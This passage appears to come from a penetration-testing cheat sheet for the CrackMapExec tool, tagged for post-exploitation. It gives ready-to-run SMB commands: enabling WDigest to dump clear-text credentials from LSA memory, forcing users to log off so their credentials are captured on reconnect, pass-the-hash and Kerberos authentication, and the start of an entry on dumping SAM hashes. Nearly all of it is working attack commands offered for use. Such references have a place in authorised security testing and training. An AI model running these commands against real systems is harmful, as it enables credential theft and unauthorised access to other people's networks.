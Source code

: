 enable/disable the WDigest provider and dump clear-text credentials from LSA memory.

```bash
cme smb <ip> -u <user|Administrator> -p '<password>' --local-auth --wdigest enable
```

## cme - loggout user
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #warning/modify_target #cat/POSTEXPLOIT

Can be useful after enable wdigest to force user to reconnect

```bash
cme smb <ip> -u <user> -p '<password>' -x 'quser'
cme smb <ip> -u <user> -p '<password>' -x 'logoff <id_user>' --no-output
```

## cme - local-auth
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
cme smb <ip> -u <user> -p <password> --local-auth
```

## cme - local-auth with hash
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

```bash
cme smb <ip> -u <user> -H <hash> --local-auth
```

## cme - domain auth
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
cme smb <ip> -u <user> -p <password> -d <domain>
```

## cme - kerberos auth
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

Previously import ticket : 
export KRB5CCNAME=/tmp/ticket.ccache

```bash
cme smb <ip> --kerberos
```

## cme - Dump SAM
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump SAM hashes using methods from secretsdump.py
You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account
